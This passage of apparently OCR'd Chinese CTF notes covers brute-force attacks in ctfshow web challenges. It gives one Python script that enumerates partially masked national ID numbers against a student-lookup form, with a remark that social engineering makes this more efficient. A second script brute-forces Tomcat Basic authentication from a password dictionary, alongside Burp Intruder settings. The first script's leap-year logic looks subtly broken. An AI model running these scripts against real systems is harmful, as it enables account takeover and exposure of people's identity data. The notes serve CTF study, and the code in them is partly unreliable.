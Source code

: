 - 利用得到的信息进行爆破
  比方说ctfshowweb27：
  ![](https://i.loli.net/2021/04/06/zd6Qf3qLvyog7Y4.png)可以利用姓名和身份证查询学号(录取时的查询系统)，而身份证被部分打码，这时就可以写脚本爆破（身份证是有规律的，爆破结合社工更有效率）

  ```python
  import requests
  import re
  
  url = "url/info/checkdb.php"
  usr = ['高先伊', '嵇开梦', '郎康焕', '元羿谆', '祁落兴']
  card1 = ['621022', '360730', '522601', '45102', '410927']
  card2 = ['5237', '7653', '8092', '3419', '5570']
  
  for j in range(5):
      a, b, c = usr[j], card1[j], card2[j]
      for year in range(1990, 1993):
          for mon in range(1, 13):
              for day in range(1, 32):
                  if mon == 2:
                      if year % 4 == 0 and year % 100 != 0 or year % 400 and day > 29:
                          break
                      elif day > 28:
                          break
                  elif mon in [4, 6, 9, 11] and day > 30:
                      break
                  card = b + str("%d" % year) + str("%02d" % mon) + str("%02d" % day) + c
                  payload = dict(a=a, p=card)
  					  r = requests.post(url, data=payload)
                  print(payload, r.text)
  ```

  

- tomcat认证爆破：
  1、burps抓包，利用字典爆破。（ctfshowweb21）
  ps：利用custom iterator(自定义迭代器)：Payload set ---->custom iterator
  需要进行base64编码；payload processing 进行编码设置
  取消Palyload Encoding编码 因为在进行base64加密的时候在最后可能存在 == 这样就会影响base64 加密的结果
  2、python脚本：

  ```python
  import time
  import requests
  import base64
  
  url = 'http://65efec28-322f-476e-aef1-b6cb3151a201.challenge.ctf.show:8080/'
  password = []
  with open("C:\\Users\\ls\\Desktop\\最新网站后台密码破解字典.txt", "r") as f:
      while True:
          data = f.readline()
          if data:
              password.append(data)
          else:
              break
  
  for p in password:
      strs = 'admin:' + p[:-1]
      header = {
          'Authorization': 'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
      }
      rep = requests.get(url, headers=header)
      time.sleep(0.2)
      if rep.status_code == 200:
          print(rep.text)
          break
  ```